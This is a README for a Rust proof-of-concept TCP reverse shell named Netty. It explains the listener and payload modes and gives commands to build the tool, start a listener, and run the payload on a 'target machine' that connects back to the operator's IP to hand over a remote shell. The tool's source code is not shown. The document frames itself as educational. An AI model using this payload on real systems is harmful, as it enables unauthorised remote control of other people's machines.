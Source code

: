 # Netty - A Proof-of-Concept TCP Reverse Shell

## Disclaimer

This project is for educational purposes only. It is a proof-of-concept to demonstrate how a reverse shell works. Do not use it for any malicious activities.

## Overview

Netty is a simple TCP reverse shell written in Rust. It consists of two main components: a listener and a payload. The payload connects back to the listener, allowing the listener to execute commands on the payload's machine.

This project was developed as a learning exercise to explore network programming and system command execution in Rust.

## Features

-   **Listener Mode**: Waits for incoming connections on a specified IP address and port.
-   **Payload Mode**: Connects to the listener and provides a remote shell.
-   **Cross-Platform Shell**: Uses `/bin/sh` on Unix-like systems and `powershell.exe` on Windows.
-   **Asynchronous I/O**: Built with `tokio` for non-blocking network operations.
-   **Simple Command-Line Interface**: Easy-to-use CLI for starting the listener or the payload.

## How It Works

1.  **The Listener**: You start the listener on your machine, specifying a port to listen on. It will wait for a TCP connection.

2.  **The Payload**: You run the payload on the target machine, specifying the listener's IP address and port.

3.  **The Connection**: The payload initiates a TCP connection to the listener.

4.  **Remote Shell**: Once the connection is established, the listener can send shell commands to the payload. The payload executes these commands and sends the output back to the listener.

## Usage

First, clone the repository and build the project:

```bash
git clone <repository-url>
cd netty
cargo build --release
```

### 1. Start the Listener

On your machine, run the following command to start the listener on port `8080`:

```bash
./target/release/netty -l -p 8080
```

The listener will start and print "Listening...".

### 2. Run the Payload

On the target machine, run the following command, replacing `<your-ip>` with the IP address of the machine running the listener:

```bash
./target/release/netty -a <your-ip> -p 8080
```

### 3. Execute Commands

Once the payload connects, you will see a "Connected to <ip>:<port>" message on the listener's terminal. You can now type commands and press Enter to execute them on the target machine.

To close the connection, type `exit` in the listener's terminal.
